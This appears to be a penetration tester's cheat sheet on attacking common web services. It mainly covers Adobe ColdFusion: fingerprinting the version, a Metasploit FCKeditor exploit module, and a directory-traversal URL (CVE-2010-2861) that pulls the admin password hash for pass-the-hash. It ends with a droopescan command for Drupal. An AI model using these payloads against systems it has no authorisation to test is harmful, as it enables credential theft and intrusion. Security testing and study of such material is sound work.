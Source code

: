 # Common Web Services



## Common web-services <a id="common-web-services"></a>

This is a list of some common web-services. The list is alphabetical.

### Cold Fusion <a id="cold-fusion"></a>

If you have found a cold fusion you are almost certainly struck gold.  
[http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers](http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers)

#### Determine version <a id="determine-version"></a>

example.com/CFIDE/adminapi/base.cfc?wsdl  
It will say something like:

```text
<!--WSDL created by ColdFusion version 8,0,0,176276-->
```

#### Version 8 <a id="version-8"></a>

**FCKEDITOR**

This works for version 8.0.1. So make sure to check the exact version.

```text
use exploit/windows/http/coldfusion_fckeditor
```

**LFI**

This will output the hash of the password.

```text
http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

You can pass the hash.

[http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers](http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers)

[http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/](http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/)

neo-security.xml and password.properties

### Drupal <a id="drupal"></a>

Use droopescan \(note takes a long time!\)

```text
droopescan scan drupal -u 10.10.10.9
```

